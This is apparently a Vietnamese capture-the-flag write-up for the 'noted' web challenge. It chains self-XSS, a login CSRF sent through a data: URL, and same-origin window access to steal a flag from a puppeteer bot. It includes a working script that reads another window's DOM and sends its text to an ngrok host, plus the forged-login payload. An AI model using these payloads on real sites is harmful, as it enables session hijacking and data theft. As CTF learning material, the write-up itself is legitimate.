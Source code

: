 # noted
## Description
I made a nice web app that lets you take notes. I'm pretty sure I've followed all the best practices so its definitely secure right?
Note that the headless browser used for the "report" feature does not have access to the internet.
## Solution
Bài này cho mình sẵn source code, nhưng mà theo kinh nghiệm thì truớc tiên mình nên thử các feature như blackbox đã truớc khi đọc sourcecode.

Chall mở đầu bằng trang login:

![img](./img/1.png)

Register cred bất kì và vào dashboard: 

![img](./img/3.png)

ở đây có 1 mục tạo noted ( bị dính xss) và 1 mục report URL. Nhưng mà tất cả chỉ dừng lại ở self xss, thôi thì tạm thời thế đã giờ thì review source nào

![img](./img/2.png)

Đáng lưu ý nhất là ở ``report.js``

```
const crypto = require('crypto');
const puppeteer = require('puppeteer');

async function run(url) {
	let browser;

	try {
		module.exports.open = true;
		browser = await puppeteer.launch({
			headless: true,
			pipe: true,
			args: ['--incognito', '--no-sandbox', '--disable-setuid-sandbox'],
			slowMo: 10
		});

		let page = (await browser.pages())[0]

		await page.goto('http://0.0.0.0:8080/register');
		await page.type('[name="username"]', crypto.randomBytes(8).toString('hex'));
		await page.type('[name="password"]', crypto.randomBytes(8).toString('hex'));

		await Promise.all([
			page.click('[type="submit"]'),
			page.waitForNavigation({ waituntil: 'domcontentloaded' })
		]);

		await page.goto('http://0.0.0.0:8080/new');
		await page.type('[name="title"]', 'flag');
		await page.type('[name="content"]', process.env.FLAG ?? 'ctf{flag}');

		await Promise.all([
			page.click('[type="submit"]'),
			page.waitForNavigation({ waituntil: 'domcontentloaded' })
		]);

		await page.goto('about:blank')
		await page.goto(url);
		await page.waitForTimeout(7500);

		await browser.close();
	} catch(e) {
		console.error(e);
		try { await browser.close() } catch(e) {}
	}

	module.exports.open = false;
}

module.exports = { open: false, run }
```
 
con puppeteer bot này dùng headless browser với flag ``--no-sandbox``. Đầu tiên nó sẽ tạo tài khoản bất kì, và tạo 1 note chứa flag trong session tkhoan đó. sau đó nó sẽ browse đến url mà mình gửi

Thông thuờng thì mình có thể khai thác ``self-XSS`` bằng cách sẽ là sử dụng ``CSRF`` để ``POST`` cái login form vào tài khoản của mình để trigger xss. Nhưng mà account mà con bot sử dụng đưọc tạo random cùng với csrf nên cách này sẽ ko thành công. Ngoài ra theo như hint đề bài ``There's more than just HTTP(S)!`` mình còn nghĩ đến chrome devtool protocol như là truy cập voà ``json/list`` của port 9222 rồi exploit tiếp cái websocketdebugurl :D

Nhưng có 1 điểm đặc biệt ở đây, nếu 2 windows X và Y có cùng một ``document.domain``, miễn là chúng lquan đến nhau thì chúng có thể access vào DOM của nhau :DD. Cụ thể nếu X là trang chứa flag rồi sau đó B login vào cred bị dính self-XSS thì B vẫn có thể đọc DOM từ A ( dùng window.open) để lấy flag

![img](./img/4.png)

Reference: [here](https://developer.mozilla.org/en-US/docs/Web/API/Document/domain)

Nhưng mà nếu mà mình muốn gửi POST login thì mình cũng phải chuyển huớng bot đến internet mà đề bài thì lại bảo (``Note that the headless browser used for the "report" feature does not have access to the internet.``). Nma cuối cùng là bịp,vì mình vẫn truy cập dc :D.

Đặc biệt, ở trang report, có vẻ nó không check format của url, tức là ta có thể đấm như thế này ``data:text/html,<script>alert(1)</script>``, ngoài ra ta còn có thể mở window mới để lấy CSRF

Nói chung huớng đi sẽ là
- Ở trang dính self-XSS, mình sẽ viết payload fetch dữ liệu từ window chứa flag và send nó đến ngrok để đọc
- Ở trang ``/report``, ta sẽ gửi payload như sau:
  - Mở window mới với url là trang notes mà chứa flag và đặt tên cho nó (vd: ``flag``)
  - login vào account của mình
  - ``window.location`` trang ``/notes?flag``, lúc này mình sẽ trigger đưọc xss và sẽ fetch đưọc content của trang test

Script fetch dữ liệu:
```
<script>
  if (window.location.search.includes('flag'))
    window.location = 'http://29a5-2402-800-61b1-c507-ae7e-98e9-c6f1-8e15.ngrok.io/?' + window.open('', 'flag').document.body.textContent
</script>

```
note: nên thêm điều kiện check đúng window tên ``flag`` mới fetch chứ ko nó fetch hết mỗi khi mình chui voà ``/notes`` :D

Payload đấm cái url:
```
data:text/html,
<form action="http://0.0.0.0:8080/login" method=POST id=c target=_blank>
  <input type="text" name="username" value="hacker"><input type="text" name="password" value="1">
</form>
<script>
  window.open('http://0.0.0.0:8080/notes', 'flag');
  setTimeout("c.submit()", 1000);
  setTimeout("window.location='http://0.0.0.0:8080/notes?flag'", 1500);
</script>
```
![img](./img/5.png)

## Cách tham khảo thêm: